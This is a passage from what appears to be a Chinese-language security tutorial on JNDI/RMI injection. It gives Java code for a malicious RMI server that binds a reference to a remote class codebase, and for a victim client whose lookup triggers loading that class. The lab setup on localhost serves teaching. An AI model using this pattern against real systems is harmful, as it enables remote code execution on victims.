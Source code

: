 3、在创建的包下新建 `rmi` 服务端和客户端  
[![](assets/1711556038-8d34eacdfe99691ce75c937d99012e8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308194436-9a221242-bda6-1.png)

服务端（RMIService.java）代码

```plain
package jndi_rmi_injection;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import javax.naming.Reference;
import com.sun.jndi.rmi.registry.ReferenceWrapper;

public class RMIServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(7778);
        Reference reference = new Reference("Calculator","Calculator","http://127.0.0.1:8081/");
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("RCE",wrapper);
    }

}
```

客户端（RMIClient.java）代码，客户端也是受害端

```plain
package jndi_rmi_injection;

import javax.naming.InitialContext;
import javax.naming.NamingException;
public class RMIClient {
    public static void main(String[] args) throws NamingException{
        String uri = "rmi://127.0.0.1:7778/RCE";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(uri);
    }
}
```

